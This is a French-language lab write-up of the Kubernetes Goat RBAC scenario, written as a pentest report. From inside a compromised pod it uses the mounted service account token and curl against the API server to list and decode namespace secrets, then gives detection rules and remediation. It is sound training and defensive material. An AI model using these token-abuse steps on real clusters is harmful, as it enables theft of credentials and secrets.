



# SC-CLD-004 — RBAC Least Privileges Misconfiguration

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-CLD-004 |
| **Nom** | RBAC Least Privileges Misconfiguration |
| **Cible** | Pod `hunger-check-deployment` → Secrets namespace `big-monolith` |
| **VLAN** | 30 — Cloud Lab (192.168.30.0/24) |
| **Sévérité** | 🟠 Élevée |
| **CVSS 3.1** | 8.8 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H) |
| **CWE** | CWE-269 (Improper Privilege Management), CWE-732 (Incorrect Permission Assignment) |
| **MITRE ATT&CK** | T1078.001 (Valid Accounts: Default Accounts), T1552.007 (Unsecured Credentials: Container API) |
| **Flag** | `k8s-goat-85057846a8046a25b35f38f3a2649dce` |
| **Date** | 21 février 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

### Pour un recruteur
Ce test démontre qu'un **service account Kubernetes trop permissif** permet de voler des secrets auxquels il ne devrait pas avoir accès. Un développeur a configuré un rôle avec un wildcard (`*`) au lieu de restreindre les permissions au strict nécessaire. Résultat : depuis un simple pod applicatif compromis, un attaquant accède à toutes les données sensibles du namespace, incluant des clés API de production. Cette erreur de configuration RBAC est la **deuxième cause d'incidents Kubernetes** en entreprise.

### Pour un auditeur ISO 27001 / NIS2
Non-conformité A.5.15 (Contrôle d'accès), A.5.18 (Droits d'accès), A.8.3 (Restriction d'accès à l'information). Le Role `secret-reader` accorde `get`, `watch`, `list` sur `resources: "*"` (toutes les ressources du namespace) alors que le besoin métier se limite à un seul secret (`webhookapikey`). Le principe de moindre privilège (ISO 27001 A.8.3) est violé. L'absence de revue périodique des droits RBAC (A.5.18) a permis à cette misconfiguration de persister.

### Pour un RSSI
Impact : exfiltration de tous les secrets du namespace `big-monolith` via le service account `big-monolith-sa`. Le vecteur d'attaque est un pod compromis utilisant le token JWT auto-monté pour interroger l'API Kubernetes. La misconfiguration est contenue au namespace (Role, pas ClusterRole), mais les données exfiltrées incluent des clés API de production (`vaultapikey`). Remédiation : restreindre le Role avec `resourceNames` pour limiter l'accès au seul secret légitime.

---

## Diagramme réseau réel (IPs / Services / Namespaces)



---

## Kill Chain

```mermaid
graph LR
    A0["0. Compromission initiale<br/>RCE applicative / SSRF / injection<br/>→ Shell dans le pod"] --> A["1. Post-exploitation<br/>Reconnaissance interne<br/>hunger-check-deployment"]
    A --> B["2. Découverte<br/>Token JWT auto-monté<br/>/var/run/secrets/.../token"]
    B --> C["3. Énumération RBAC<br/>curl API → list secrets<br/>→ 200 OK (devrait être 403)"]
    C --> D["4. Exfiltration<br/>GET /secrets/vaultapikey<br/>base64 decode → flag"]
    D --> E["5. Reconnaissance étendue<br/>Pods, services, configmaps<br/>Tout le namespace lisible"]
    E --> F["6. Vérification scope<br/>Cross-namespace → 403<br/>Dommage contenu"]

    style A0 fill:#3498db,color:#fff
    style A fill:#e74c3c,color:#fff
    style C fill:#e74c3c,color:#fff
    style D fill:#e67e22,color:#fff
```



---

## Reconnaissance

### Identification du service account et du pod

```bash
$ sudo kubectl get sa -n big-monolith
NAME              SECRETS   AGE
big-monolith-sa   0         2d4h
default           0         2d4h
```

```bash
$ sudo kubectl get pods -n big-monolith -o wide
NAME                                       READY   STATUS    IP           NODE
hunger-check-deployment-68d68dc578-4vvnf   1/1     Running   10.42.1.29   k8s-prod-worker-1
```

### Inspection du Role RBAC — La misconfiguration

```bash
$ sudo kubectl get role secret-reader -n big-monolith -o yaml
```

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: secret-reader
  namespace: big-monolith
rules:
- apiGroups:
  - ""
  resources:
  - '*'          # ⚠️ MISCONFIGURATION — wildcard = toutes les ressources
  verbs:
  - get
  - watch
  - list
```

**Analyse de la misconfiguration :**

Le Role `secret-reader` utilise `resources: "*"` au lieu de cibler un secret spécifique. Voici la différence :

**Configuration actuelle (vulnérable) :**
```yaml
resources: ["*"]     # Accès à TOUTES les ressources : secrets, pods, services, configmaps...
verbs: [get, watch, list]
```

**Configuration correcte (sécurisée) :**
```yaml
resources: ["secrets"]
resourceNames: ["webhookapikey"]   # Accès uniquement à CE secret
verbs: ["get"]                      # Pas besoin de list ni watch
```

### Inspection du RoleBinding

```bash
$ sudo kubectl get rolebinding secret-reader-binding -n big-monolith -o yaml
```

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: secret-reader-binding
  namespace: big-monolith
subjects:
- kind: ServiceAccount
  name: big-monolith-sa       # ← Ce SA a le Role trop permissif
roleRef:
  kind: Role
  name: secret-reader          # ← Le Role avec le wildcard
```

### Secrets présents dans le namespace

```bash
$ sudo kubectl get secrets -n big-monolith
NAME            TYPE     DATA   AGE
vaultapikey     Opaque   1      2d4h
webhookapikey   Opaque   1      2d4h
```

Deux secrets : `webhookapikey` (accès légitime) et `vaultapikey` (accès illégitime — le flag).

---

## Exploitation

### Phase 1 — Accès au pod et reconnaissance

**Contexte :** Ce scénario est une **phase de post-exploitation**. L'attaquant a déjà obtenu un shell dans le pod `hunger-check-deployment` via une vulnérabilité applicative (RCE, injection de commande, SSRF chaîné, ou compromission de l'image Docker). Le `kubectl exec` ci-dessous simule cette compromission initiale. L'exploitation RBAC qui suit est l'**escalade de privilèges** à l'intérieur du cluster.

```bash
# Simulation de l'accès initial (équivalent d'un RCE sur l'application)
$ sudo kubectl exec -it -n big-monolith hunger-check-deployment-68d68dc578-4vvnf -- /bin/bash

root@hunger-check-deployment-68d68dc578-4vvnf:/# hostname
hunger-check-deployment-68d68dc578-4vvnf

root@hunger-check-deployment-68d68dc578-4vvnf:/# id
uid=0(root) gid=0(root) groups=0(root)
```

**Découverte du token JWT :**

```bash
root@hunger-check-deployment-68d68dc578-4vvnf:/# cat /var/run/secrets/kubernetes.io/serviceaccount/token | head -c 50
eyJhbGciOiJSUzI1NiIsImtpZCI6IkJCTWJJNDlBVGlTME9OXz...

root@hunger-check-deployment-68d68dc578-4vvnf:/# cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
big-monolith
```

**Analyse :** Kubernetes monte automatiquement un token JWT dans chaque pod à `/var/run/secrets/kubernetes.io/serviceaccount/token`. Ce token hérite des permissions du service account assigné au pod. Un attaquant dans le pod peut utiliser ce token pour interroger l'API Kubernetes.

### Phase 2 — Exploitation du RBAC trop permissif

**Objectif :** Utiliser le token du SA `big-monolith-sa` pour lire des secrets auxquels il ne devrait pas avoir accès.

**Préparation :**

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER="https://kubernetes.default.svc"
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
```

**Requête API brute — Lister tous les secrets du namespace :**

```bash
root@hunger-check-deployment:/# curl -sk -H "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/namespaces/$NAMESPACE/secrets"
```

**Réponse (extraits clés) :**

```json
{
  "kind": "SecretList",
  "apiVersion": "v1",
  "items": [
    {
      "metadata": { "name": "vaultapikey", "namespace": "big-monolith" },
      "data": { "k8svaultapikey": "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" }
    },
    {
      "metadata": { "name": "webhookapikey", "namespace": "big-monolith" },
      "data": { "k8swebhookapikey": "azhzLWdvYXQtZGZjZjYzMDUzOTU1M2VjZjk1ODZmZGZkYTE5NjhmZWM=" }
    }
  ]
}
```

**Analyse :** La requête retourne `200 OK` avec **tous les secrets** du namespace. Si le RBAC était correctement configuré avec `resourceNames: ["webhookapikey"]`, cette requête `list` retournerait uniquement `webhookapikey`, ou serait refusée (403).

**Lecture directe du secret illégitime :**

```bash
root@hunger-check-deployment:/# curl -sk -H "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/namespaces/$NAMESPACE/secrets/vaultapikey"
```

**Réponse :**

```json
{
  "kind": "Secret",
  "metadata": { "name": "vaultapikey", "namespace": "big-monolith" },
  "data": { "k8svaultapikey": "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" },
  "type": "Opaque"
}
```

**Décodage base64 :**

```bash
root@hunger-check-deployment:/# echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
k8s-goat-85057846a8046a25b35f38f3a2649dce
```

**Analyse :** Les secrets Kubernetes sont stockés en base64 — c'est de l'encodage, pas du chiffrement. N'importe qui avec un accès `get` peut lire et décoder les secrets instantanément.

### Phase 3 — Évaluation de la surface d'attaque

**Le wildcard `*` donne accès à TOUTES les ressources, pas juste les secrets :**

```bash
# Lecture des pods
root@hunger-check-deployment:/# curl -sk -H "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/namespaces/$NAMESPACE/pods" | grep '"name"' | head -3
        "name": "hunger-check-deployment-68d68dc578-4vvnf",
            "name": "hunger-check-deployment-68d68dc578",
            "name": "kube-api-access-cslzt",

# Lecture des services
root@hunger-check-deployment:/# curl -sk -H "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/namespaces/$NAMESPACE/services" | grep '"name"' | head -3
        "name": "hunger-check-service",
```

**Analyse :** Le SA peut lire les pods (et donc leur configuration, variables d'environnement, volumes montés) et les services (et donc la topologie réseau du namespace). Un attaquant obtient une cartographie complète du namespace.

**Vérification du scope — Isolation cross-namespace :**

```bash
# Tentative d'accès au namespace default
root@hunger-check-deployment:/# curl -sk -H "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/namespaces/default/secrets"
{
  "status": "Failure",
  "message": "secrets is forbidden: User \"system:serviceaccount:big-monolith:big-monolith-sa\" cannot list resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "code": 403
}

# Tentative d'accès au namespace kube-system
root@hunger-check-deployment:/# curl -sk -H "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/namespaces/kube-system/secrets"
{
  "status": "Failure",
  "message": "secrets is forbidden: User \"system:serviceaccount:big-monolith:big-monolith-sa\" cannot list resource \"secrets\" in API group \"\" in the namespace \"kube-system\"",
  "code": 403
}
```

**Analyse :** L'accès cross-namespace est refusé (403). La misconfiguration est un **Role** (limité au namespace), pas un **ClusterRole** (cluster-wide). Le dommage est contenu au namespace `big-monolith`. Si c'était un ClusterRoleBinding avec le même wildcard, l'attaquant aurait accès aux secrets de tout le cluster, y compris `kube-system` — game over.

---

## Données exfiltrées

| Donnée | Source | Valeur décodée | Criticité |
|--------|--------|---------------|-----------|
| **vaultapikey** (flag) | Secret K8s `big-monolith/vaultapikey` | `k8s-goat-85057846a8046a25b35f38f3a2649dce` | 🔴 Critique |
| webhookapikey | Secret K8s `big-monolith/webhookapikey` | `k8s-goat-dfcf630539553ecf9586fdfda1968fec` | 🟠 Élevé |
| Configuration des pods | API `/pods` | Noms, images, volumes, env vars | 🟡 Moyen |
| Topologie des services | API `/services` | ClusterIPs, ports, endpoints | 🟡 Moyen |

---

## Impact technique

Un attaquant qui exploite cette misconfiguration RBAC obtient :

1. **Tous les secrets du namespace** — Clés API, mots de passe, certificats TLS, tokens d'authentification. En une seule requête `list`, tous les secrets sont exfiltrés.

2. **Cartographie complète du namespace** — Pods (images, configurations, volumes), services (IPs, ports), configmaps. L'attaquant comprend l'architecture interne de l'application.

3. **Monitoring en temps réel** — Les verbes `watch` et `list` permettent de surveiller les changements de secrets en continu. Si un nouveau secret est ajouté au namespace, l'attaquant le voit immédiatement.

4. **Pas de trace dans les logs applicatifs** — Les requêtes passent par l'API Kubernetes, pas par l'application. Seuls les Kubernetes Audit Logs capturent ces accès.

---

## Impact métier — MediaTech Groupe SA

### Estimation financière

| Impact | Estimation | Justification |
|--------|-----------|---------------|
| **Amende RGPD** | 500 000 € à 4 000 000 € | Accès non autorisé à des clés API pouvant exposer des données personnelles en cascade. RGPD Art. 83(4). |
| **Compromission de services tiers** | 200 000 € à 1 000 000 € | Les clés API volées (vault, webhook) donnent accès aux services connectés : paiement, CRM, stockage. |
| **Investigation forensique** | 80 000 € à 200 000 € | Audit RBAC complet, rotation de tous les secrets, revue des accès sur les 6 derniers mois. |
| **Atteinte réputationnelle** | 300 000 € à 1 500 000 € | Perte de confiance des partenaires si les clés API compromises sont utilisées pour des attaques en chaîne. |
| **Coût de remédiation** | 50 000 € à 150 000 € | Refonte des Roles RBAC, déploiement d'outils de gouvernance (RBAC Manager, Kyverno), formation des DevOps. |
| **TOTAL estimé** | **1 130 000 € à 6 850 000 €** | |

### Impact réglementaire

- **RGPD** — Violation des articles 5(1)(f) (intégrité et confidentialité), 25 (protection dès la conception), 32 (mesures techniques — contrôle d'accès). Les secrets K8s contenant des clés API vers des systèmes traitant des données personnelles doivent être protégés par le principe de moindre privilège.
- **NIS2** — Non-conformité aux exigences de gestion des risques cyber (Article 21). Le wildcard RBAC viole l'obligation de contrôle d'accès proportionné.
- **ISO 27001** — Non-conformité A.5.15 (Contrôle d'accès), A.5.18 (Droits d'accès), A.8.3 (Restriction d'accès à l'information).

### Top 5 actions prioritaires

**0–24h (urgence)**

1. Restreindre le Role `secret-reader` avec `resourceNames: [webhookapikey]` — limiter l'accès au seul secret légitime.
2. Rotation immédiate de `vaultapikey` et `webhookapikey` — considérer les deux comme compromis.

**Sous 1 semaine**

3. Auditer **tous les Roles et ClusterRoles** du cluster — identifier tout wildcard `resources: "*"` ou `verbs: "*"` et les remplacer par des permissions granulaires.
4. Désactiver `automountServiceAccountToken: false` sur tous les pods qui n'utilisent pas l'API Kubernetes.

**Sous 1 mois**

5. Déployer un outil de gouvernance RBAC (RBAC Manager, Kyverno) avec alertes automatiques sur toute création de Role avec wildcard.

### Décisions attendues du COMEX

- **Valider un audit RBAC complet** du cluster K8s de production — inventaire exhaustif des Roles, ClusterRoles, RoleBindings et ClusterRoleBindings avec identification de toutes les permissions excessives.
- **Déclencher une évaluation d'impact RGPD** — si `vaultapikey` donnait accès à des données personnelles via HashiCorp Vault, la violation est potentiellement notifiable à la CNIL.
- **Nommer un sponsor** (DSI / RSSI) et un responsable opérationnel (Admin K8s / IAM) pour piloter la remédiation RBAC et la rotation des credentials.
- **Mettre en place une politique formelle** de gouvernance RBAC : principe de moindre privilège obligatoire, revue trimestrielle des droits, interdiction des wildcards en production.
- **Valider un budget** pour le déploiement d'outils de gouvernance RBAC et de détection des déviations de configuration (Kubescape, Kyverno policies).

---

## Matrice de risque



---

## Détection SOC / SIEM

### Logs exploitables

| Source | Log | Indicateur |
|--------|-----|------------|
| **Kubernetes Audit Log** | `verb: list, resource: secrets` | SA listant tous les secrets d'un namespace |
| **Kubernetes Audit Log** | `verb: get, resource: secrets, resourceName: vaultapikey` | Accès à un secret spécifique non autorisé |
| **Kubernetes Audit Log** | `verb: watch, resource: secrets` | Monitoring continu des secrets (surveillance) |
| **Falco** | `K8s API access from pod` | Requête API inhabituelle depuis un pod applicatif |
| **OPA/Kyverno** | Audit policy violations | Détection de Roles avec wildcard `*` |

### Règles Sigma

```yaml
# Sigma Rule 1 — SA listant tous les secrets d'un namespace
title: Kubernetes Service Account Listing All Secrets
id: sc-cld-004-001
status: experimental
description: Détecte un service account qui liste tous les secrets d'un namespace via l'API K8s
logsource:
    product: kubernetes
    service: audit
detection:
    selection:
        verb: list
        objectRef.resource: secrets
        user.username|startswith: 'system:serviceaccount:'
    filter:
        user.username|contains:
            - 'kube-system'
            - 'cert-manager'
    condition: selection and not filter
level: high
tags:
    - attack.credential_access
    - attack.t1552.007
falsepositives:
    - Outils de backup qui listent les secrets (Velero)
    - Operators légitimes
---

# Sigma Rule 2 — Role RBAC avec wildcard resources
title: Kubernetes RBAC Role with Wildcard Resources
id: sc-cld-004-002
status: experimental
description: Détecte la création ou modification d'un Role avec resources '*' (wildcard)
logsource:
    product: kubernetes
    service: audit
detection:
    selection:
        verb:
            - create
            - update
            - patch
        objectRef.resource: roles
        requestObject.rules[].resources[]: '*'
    condition: selection
level: critical
tags:
    - attack.persistence
    - attack.t1078.001
---

# Sigma Rule 3 — Accès à un secret depuis un pod applicatif
title: Secret Access from Application Pod
id: sc-cld-004-003
status: experimental
description: Détecte l'accès direct à un secret K8s depuis un pod applicatif (hors system)
logsource:
    product: kubernetes
    service: audit
detection:
    selection:
        verb: get
        objectRef.resource: secrets
        sourceIPs|cidr: '10.42.0.0/16'
    filter:
        objectRef.namespace: 'kube-system'
    condition: selection and not filter
level: medium
tags:
    - attack.credential_access
    - attack.t1552.007
```

### Règle Falco

```yaml
- rule: K8s Secret Listed by Service Account
  desc: Détecte un service account listant tous les secrets d'un namespace
  condition: >
    kevt and
    kcreate and
    ka.verb = "list" and
    ka.target.resource = "secrets" and
    not ka.user.name startswith "system:kube"
  output: >
    WARNING: Service account listing secrets
    (user=%ka.user.name ns=%ka.target.namespace
     resource=%ka.target.resource verb=%ka.verb
     sourceIP=%ka.sourceips)
  priority: WARNING
  tags: [k8s, rbac, credential_access, T1552.007]
```

### Indicateurs de compromission (IOC)

| Type | Valeur | Description |
|------|--------|-------------|
| **API call** | `GET /api/v1/namespaces/big-monolith/secrets` | Liste tous les secrets |
| **API call** | `GET /api/v1/namespaces/big-monolith/secrets/vaultapikey` | Lecture secret illégitime |
| **RBAC config** | Role avec `resources: "*"` | Wildcard trop permissif |
| **RBAC config** | Role sans `resourceNames` | Pas de restriction par nom |
| **User agent** | `curl/x.x.x` depuis un pod | Requête manuelle, pas applicative |
| **Source IP** | `10.42.1.29` (pod hunger-check) | Pod source de l'exfiltration |

---

## Remédiation — Secure by Design

### Immédiat (24h) — Corriger le Role

1. **Restreindre le Role `secret-reader`** pour limiter l'accès au seul secret légitime :

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: secret-reader
  namespace: big-monolith
rules:
- apiGroups: [""]
  resources: ["secrets"]
  resourceNames: ["webhookapikey"]   # ← Accès uniquement à CE secret
  verbs: ["get"]                      # ← Pas besoin de list ni watch
```

```bash
kubectl apply -f role-secret-reader-fixed.yaml
```

2. **Rotation immédiate des secrets** — Les secrets `vaultapikey` et `webhookapikey` doivent être considérés comme compromis et régénérés :

```bash
kubectl delete secret vaultapikey -n big-monolith
kubectl create secret generic vaultapikey \
  --from-literal=k8svaultapikey="NOUVELLE-CLE-API" \
  -n big-monolith
```

3. **Désactiver l'auto-mount du token** sur les pods qui n'ont pas besoin de l'API K8s :

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: big-monolith-sa
  namespace: big-monolith
automountServiceAccountToken: false   # ← Pas de token auto-monté
```

### Court terme (1 semaine) — Audit et gouvernance

4. **Audit complet des Roles et ClusterRoles** — Identifier tous les wildcards :

```bash
# Trouver tous les Roles avec wildcard
kubectl get roles -A -o json | jq -r '.items[] | select(.rules[].resources[] == "*") | "\(.metadata.namespace)/\(.metadata.name)"'

# Trouver tous les ClusterRoles avec wildcard
kubectl get clusterroles -o json | jq -r '.items[] | select(.rules[]?.resources[]? == "*") | .metadata.name' | grep -v "system:"
```

5. **Déployer Kyverno** pour bloquer les Roles avec wildcard :

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: deny-wildcard-roles
spec:
  validationFailureAction: Enforce
  rules:
  - name: deny-wildcard-resources
    match:
      any:
      - resources:
          kinds:
          - Role
          - ClusterRole
    validate:
      message: "Les wildcards (*) dans les resources sont interdits. Spécifiez les resources explicitement."
      deny:
        conditions:
          any:
          - key: "{{ contains(request.object.rules[].resources[], '*') }}"
            operator: Equals
            value: true
```

6. **Activer les Kubernetes Audit Logs** avec une politique ciblant les accès aux secrets :

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets"]
  verbs: ["get", "list", "watch"]
```

### Moyen terme (1 mois) — Architecture sécurisée

7. **Implémenter un External Secrets Operator** (ESO) avec HashiCorp Vault pour éviter de stocker les secrets directement dans K8s.

8. **Activer le chiffrement des secrets at rest** dans K3s :

```yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
  - resources:
    - secrets
    providers:
    - aescbc:
        keys:
        - name: key1
          secret: <base64-encoded-key>
    - identity: {}
```

9. **Revue RBAC trimestrielle** — Automatiser avec `kubectl-who-can` et RBAC Manager.

10. **Implémenter des Network Policies** pour limiter la communication des pods vers l'API server uniquement quand nécessaire.

---

## Architecture cible sécurisée



---

## Comparaison RBAC — Vulnérable vs Sécurisé

| Aspect | Configuration vulnérable | Configuration sécurisée |
|--------|--------------------------|------------------------|
| **resources** | `"*"` (tout) | `"secrets"` (spécifique) |
| **resourceNames** | Absent | `["webhookapikey"]` |
| **verbs** | `get, watch, list` | `get` uniquement |
| **automountServiceAccountToken** | `true` (défaut) | `false` sauf besoin explicite |
| **Surface d'attaque** | Tout le namespace | 1 seul secret, en lecture seule |
| **Détectabilité** | Difficile (requêtes légitimes) | Facile (accès hors scope = alerte) |

---

## Statistiques réelles

| Source | Statistique | Année |
|--------|-------------|-------|
| Red Hat State of K8s Security | 59% des incidents K8s causés par des misconfigurations | 2024 |
| Red Hat State of K8s Security | 46% des organisations ont perdu des revenus suite à un incident K8s | 2024 |
| Aikido.dev | Les RBAC missteps (cluster-admin sur des SA) sont une cause majeure de mouvement latéral | 2025 |
| Red Hat | 47% des répondants citent les misconfigurations comme leur préoccupation #1 en K8s | 2024 |
| IBM Cost of a Data Breach | Les brèches impliquant des credentials volés sont les plus coûteuses et les plus longues à détecter | 2025 |

---

## Références

| Référence | Lien |
|-----------|------|
| MITRE ATT&CK T1078.001 — Default Accounts | https://attack.mitre.org/techniques/T1078/001/ |
| MITRE ATT&CK T1552.007 — Container API | https://attack.mitre.org/techniques/T1552/007/ |
| CWE-269 — Improper Privilege Management | https://cwe.mitre.org/data/definitions/269.html |
| CWE-732 — Incorrect Permission Assignment | https://cwe.mitre.org/data/definitions/732.html |
| Kubernetes RBAC Documentation | https://kubernetes.io/docs/reference/access-authn-authz/rbac/ |
| Kubernetes Pod Security Standards | https://kubernetes.io/docs/concepts/security/pod-security-standards/ |
| Kyverno — Policy Engine | https://kyverno.io/ |
| RBAC Manager | https://github.com/FairwindsOps/rbac-manager |
| kubectl-who-can | https://github.com/aquasecurity/kubectl-who-can |
| Kubernetes Goat — RBAC Scenario | https://madhuakula.com/kubernetes-goat/ |

---

*HikenRoot Forge — SC-CLD-004 — hik3nR00t — Février 2026*
